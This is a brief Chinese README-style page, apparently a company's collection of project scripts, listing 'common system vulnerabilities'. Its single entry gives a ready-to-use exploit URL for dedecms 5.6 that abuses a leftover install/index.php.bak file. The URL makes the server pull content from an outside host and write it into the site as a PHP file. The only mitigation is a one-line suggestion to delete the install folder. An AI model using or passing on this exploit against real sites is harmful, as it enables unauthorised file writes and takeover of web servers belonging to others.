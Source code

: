 # **仁裕元科技出品- 一些项目中用到的脚本** #
----
#### 1 常用系统漏洞
| 软件名称 | 实例  | 说明 | 备注 |
| :------------ | :------------ | :------------ | :------------ |
| dedecms5.6 | `http://你的dedecms网址/install/index.php.bak?step=11&insLockfile=a&s_lang=a&install_demo_name=../xss.php&updateHost=http://www.xmyisu.com/`  | 安装dedecms 后会  生成install/index.php.bak这个文件.| 建议删除install文件夹 |
